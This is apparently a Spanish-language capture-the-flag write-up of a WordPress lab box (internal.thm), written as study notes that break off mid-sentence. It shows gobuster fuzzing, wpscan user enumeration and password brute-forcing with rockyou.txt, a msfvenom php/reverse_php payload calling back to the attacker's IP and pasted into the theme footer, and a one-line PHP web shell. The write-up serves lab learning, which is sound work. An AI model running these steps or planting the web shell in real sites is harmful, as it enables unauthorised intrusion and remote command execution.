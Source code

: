 Entornos wordpress --> Diferentes configuraciones que puede tener para desarrollar, probar y poner en funcionamiento tu sitio web.


- Tenemos una maquina con el puerto 80 abierto, vamos a usar fuzzing utilizando la herramienta ==gobuster==

![](../Imagenes/Pasted%20image%2020250107201932.png)

- Tenemos wordpress, vamos a investigar

![](../Imagenes/Pasted%20image%2020250107202029.png)

- Vemos que lo carga incompleto.
	- Esto pasa porque hace falta que la IP de la maquina victima este apuntando al dominio de wordpress. Hay que editar el fichero /etc/hosts.
	- Pero que dominio vamos a utilizar?
![[Pasted image 20250107202212.png]]
- Se repite mucho el directorio internal.thm, vamos a ingresarlo.

![](../Imagenes/Pasted%20image%2020250107202431.png)


![](../Imagenes/Pasted%20image%2020250107202452.png)

- Ya estamos dentro de la pagina.
- Cuando estamos en wordpress, podemos poder hacer un fuzzing a la pagina para encontrar un login web.

![](../Imagenes/Pasted%20image%2020250107203016.png)

- Podemos entrar al login web.

![](../Imagenes/Pasted%20image%2020250107203106.png)

- Aquí debemos usar ==wpscan==
- WPSCAN --> Escanear y auditar la seguridad de sitios web basados en Wordpress.
- Usamos el siguiente comando:
```
wpscan --url (IP_VICTIMA_DIRECTORIO) --enumerate u,vp
```

![](../Imagenes/Pasted%20image%2020250107205024.png)

- Nos dio un usuario, por lo tanto podemos hacer fuerza bruta con ==wpscan==.
```
wpscan --url (IP_VICTIMA_DDIRECTORIO) --passwords /usr/share/wordlists/rockyou.txt --usernames admin
```
- Ya tenemos contraseña:

![](../Imagenes/Pasted%20image%2020250107210613.png)

- Ahora nuestro objetivo es inyectar un código malicioso en .php
- En este caso no podemos subir archivos, pero si podemos editar.

![](../Imagenes/Pasted%20image%2020250107210731.png)

- Nos vamos a Appearance > Theme Editor y nos saldra un word edition.

![](../Imagenes/Pasted%20image%2020250107210845.png)

- En este word edition vamos a agregar un código malicioso.
- Pero antes, a la derecha sale un listado de files, vamos a seleccionar ==Theme Footer==

![](../Imagenes/Pasted%20image%2020250107211018.png)

- Eliminamos todo el código que ahí aparece.
	- Tenemos que poner el payload en msfvenom.
- Para este payload lo vamos a crear en msfvenom con el siguiente comando:
```
msfvenom -p php/reverse_php LHOST=(IP_MAQUINA_ATACANTE) LPORT=(PUERTO) -f raw > pwned.php
```

![](../Imagenes/Pasted%20image%2020250107211413.png)

- Hacemos un cat en el payload y eso lo ponemos en la pagina.

![](../Imagenes/Pasted%20image%2020250107211623.png)

- le damos a update file, tenemos a nuestra maquina a escucha y volvemos a la pagina IP/blog, ya tenemos conexión.

- Si solo tenemos el puerto 80 abierto, y queremos acceder a la maquina victima, si entramos al wordress, logeamos y configuramos un directorio, debemos poner el siguiente comando:

```
<?php
		system($_GET['cmd']);
?>
```
- Así cuando ejecute